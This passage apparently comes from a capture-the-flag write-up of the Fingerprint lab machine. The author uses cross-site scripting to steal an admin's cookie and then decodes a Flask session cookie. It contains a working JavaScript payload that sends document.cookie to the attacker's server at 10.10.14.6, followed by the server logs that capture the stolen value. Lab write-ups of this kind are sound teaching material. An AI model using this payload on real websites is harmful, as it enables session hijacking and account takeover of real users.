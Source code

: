 
A bit later, there’s a connection from Fingerprint as well:

    
    
    10.10.11.127 - - [05/Dec/2021 08:44:51] code 404, message File not found
    10.10.11.127 - - [05/Dec/2021 08:44:51] "GET /xss.js HTTP/1.1" 404 -
    

It’s worth noting that the logs are cleared periodically, so I may need to
resubmit.

#### Exfil Cookie

My first thought was to exfil the cookie of the admin. I created some simple
JavaScript in `xss.js`:

    
    
    var req = new XMLHttpRequest();
    req.open("GET", "http://10.10.14.6/?" + document.cookie, false);
    req.send();
    

When the admin next checked the page, I got a cookie back:

    
    
    10.10.11.127 - - [03/Nov/2021 08:48:51] "GET /xss.js HTTP/1.1" 200 -
    10.10.11.127 - - [03/Nov/2021 08:48:52] "GET /?user_id=49f5f0062780bed62dc06bf4a8d2dd9cb5c3fda50e19a5a840262c26c001bb0338550635d9fd36fef81113d9fbd15805193308e099ee214406b0a87c0b6587fb HTTP/1.1" 200 -
    

Unfortunately, this cookie in theory would only help me access the site that
I’m already accessing, and that I have the source for. In reality, this cookie
doesn’t seem to work on the site either. Looking at the cookie that was
generated when I successfully logged in as admin, the cookie that is set is
called `session` and it’s a flask cookie:

    
    
    HTTP/1.0 200 OK
    Content-Type: text/html; charset=utf-8
    Content-Length: 219
    Location: http://10.10.10.141/admin
    Vary: Cookie
    Set-Cookie: session=eyJ1c2VyX2lkIjoiYWRtaW4ifQ.YYUKiQ.ZEiAGV_kKNLV_tcVFa1ezMrMqbk; HttpOnly; Path=/
    Server: Werkzeug/1.0.1 Python/2.7.17
    Date: Fri, 05 Nov 2021 10:42:17 GMT
    
    <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
    <title>Redirecting...</title>
    <h1>Redirecting...</h1>
    <p>You should be redirected automatically to target URL: <a href="/admin">/admin</a>.  If not click the link.
    

It decodes with [flask-session-cookie-manager](https://github.com/noraj/flask-
session-cookie-manager):

    
    
    oxdf@hacky$ flask_session_cookie_manager3.py decode -c eyJ1c2VyX2lkIjoiYWRtaW4ifQ.YYUKiQ.ZEiAGV_kKNLV_tcVFa1ezMrMqbk
    b'{"user_id":"admin"}'
    